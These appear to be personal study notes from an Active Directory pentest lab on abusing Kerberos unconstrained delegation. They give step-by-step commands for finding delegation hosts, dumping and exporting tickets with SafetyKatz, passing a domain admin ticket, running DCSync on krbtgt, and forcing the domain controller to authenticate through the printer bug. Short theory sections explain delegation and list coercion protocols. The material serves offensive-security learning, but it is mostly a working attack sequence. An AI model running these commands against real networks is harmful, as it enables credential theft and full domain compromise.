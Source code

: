 ### Abusing Unconstrained Delegation
Discover computers with unconstrained delegation (PowerView + AD module)
```powershell
Get-DomainComputer -UnConstrained

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

Wait for a domain admin to connect to a service on `appsrv` then dump all of the tickets
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::tickets /export 
```

Reuse the DA token with SafetyKatz
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /tikcet:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args lsadump::dcsync /user:dcorp\krbtgt
```
### Unconstrained Delegation Coercion
Coarse/Force machine accounts to connect to a machine and capture their TGT

Use Rubeus on App server (`dcorp-appsrv`) to capture TGT of DC machine account
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /interval:5 /nowrap
```

Abuse printer bug to force the DC to connect to the App server
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/MS-RPRN.exe -args \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```


### Theory
Kerberos Delegation allows to "reuse the end-user credentials to access
resources hosted on a different server".

Lets say there is a user that wants accesses the `Second Hop database` server through the `First Hop web server`. How will the `Second Hop database server` know which user is accessing it for authorisation? This can be done by the `First Hop web sever` impersonating/re-using the end-users credentials to access the `Second Hop database server`... EASY!

User impersonation is the goal of delegation
![[Pasted image 20250514195150.png]]

There are two types of Kerberos Delegation:
- General/Basic or `Unconstrained Delegation` - Allows the first hop(web server in our example) to request access to any service on any computer in the domain
- `Constrained Delegation` - Allows the first hop to request access only to specified services on specified computers. If Kerberos authentication is not used to authenticate to the first hop, Protocol Transition is used to transition the request to Kerberos

##### Unconstrained Delegation
Allows delegation to any service to any resource on the domain as a
user.

When unconstrained delegation is enabled, the DC places user's TGT
inside TGS. On the first hop, the TGT is extracted from TGS and stored in
LSASS. This way the server can reuse the user's TGT to access any other
resource as the user

![[Pasted image 20250514201409.png]]

###  Theory Unconstrained Delegation Coercion
Certain Microsoft services and protocols allow any authenticated user to
force a machine to connect to a second machine

As of January 2025, following protocols and services can be used for
coercion

| Protocol                     | Service        | Default on Server IS      | Ports Required |
| ---------------------------- | -------------- | ------------------------- | -------------- |
| MS-RPRN                      | Print Spooler  | Yes                       | 445 (SMB)      |
| MS-WSP                       | Windows Search | No (Default on Client OS) | 445 (SMB)      |
| MS-DFSNM (MDI detects this)) | Windows Search | No                        | 445 (SMB)      |
We can force the dcorp-dcto connect to dcorp-appsrvby abusing the Printer bug (MS-RPRN) or if enabled, other services

![[Pasted image 20250514202802.png]]